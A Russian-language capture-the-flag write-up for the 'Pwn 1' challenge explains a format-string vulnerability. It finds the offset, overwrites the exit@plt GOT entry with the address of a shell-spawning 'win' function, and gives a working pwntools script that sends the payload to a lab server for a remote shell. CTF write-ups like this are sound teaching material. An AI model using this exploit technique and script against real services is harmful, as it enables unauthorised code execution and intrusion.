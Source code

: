 # Pwn 1
Для начала запустим программу.\
После ввода строки она вывела нашу же строку.

Запустим данную программу ещё раз и опробуем ввести ```%p``` и видим вот такой ответ:\
![pwn1_1.png](pwn1_1.png "ещё один кусочек стека мне в копилку")

Это означает, что у нас уязвимость форматирования строки\
Небольшим научным перебором вычисляем смещение нашего буфера относительно указателя printf:\
![pwn1_2.png](pwn1_2.png "Поберегите руки...")

Теперь же с помощью objdump мы видим нашу функцию main а так же неизвестную функцию win\
При более тщательной проверке функции win мы понимаем, что эта функция запускает терминал\
Запомним адрес этой функции 0x401156\

Заметим, что в main вместо обычного ret используется exit@plt, рассмотрим его:
![pwn1_3.png](pwn1_3.png "Никогда не пытайтесь понять код, просто примите...")

В нём происходит переход к инструкции, которая хранится в 0x404018\
А учитывая уязвимость форматирования строки, которую мы можем использовать, чтобы переписать память на ту, что нам нужна, то запишем по адресу 0x404018 указатель на функцию win\
для этого мы можем использовать библиотеку pwntools, а именно pwnlib.fmtstr, которая соберёт нам строку для изменения памяти

для этого напишем такой код
```python
from pwnlib import fmtstr
from pwn import *

context.clear(arch='amd64')

def sendPayl(payload):
    print(payload)
    p = remote('192.168.12.13', 1923)
    p.sendline(payload)
    p.interactive()

buf = fmtstr.fmtstr_payload(6, {0x404018: 0x401156})

sendPayl(buf)
```

Архитектура сервера была вычислена также опытным путём (С другими архитектурами программа не работала)

Где ```fmtstr.fmtstr_payload```, по ранее вычисленному смещению 6 и настройке записи 0x401156 в ячейку памяти с адресом 0x404018, создаёт строку, которая сразу отправляется на сервер\
И вот мы получили терминал на сервере:
![pwn1_4.png](pwn1_4.png "Запомните, а то забудете")

Ну а теперь задача получить флаг становится тривиальной:
![pwn1_5.png](pwn1_5.png "На что я трачу жизнь...")
